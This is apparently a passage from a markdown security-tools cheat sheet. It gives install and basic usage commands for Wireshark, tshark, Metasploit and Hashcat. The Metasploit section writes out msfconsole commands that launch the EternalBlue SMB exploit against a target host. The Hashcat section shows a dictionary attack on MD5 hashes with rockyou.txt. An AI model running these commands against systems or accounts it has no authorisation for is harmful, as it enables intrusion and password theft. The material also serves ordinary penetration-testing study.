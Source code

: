 ### 2️⃣ Wireshark - Network Traffic Analysis
Wireshark captures and inspects network traffic in real time.

#### Installation:
```bash
sudo apt install wireshark -y
```

#### Run Wireshark:
```bash
wireshark
```

#### Capture packets via CLI:
```bash
sudo tshark -i eth0
```

---

## 🎯 **Exploitation Frameworks**

### 3️⃣ Metasploit - Penetration Testing Framework
Metasploit is a tool for discovering, exploiting, and validating vulnerabilities.

#### Installation:
```bash
sudo apt install metasploit-framework -y
```

#### Basic Usage:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
exploit
```

---

## 🔑 **Password Cracking**

### 4️⃣ Hashcat - GPU-Accelerated Password Cracking
Hashcat is a high-speed password recovery tool.

#### Installation:
```bash
sudo apt install hashcat -y
```

#### Crack a hash:
```bash
hashcat -m 0 -a 0 hashes.txt rockyou.txt
```

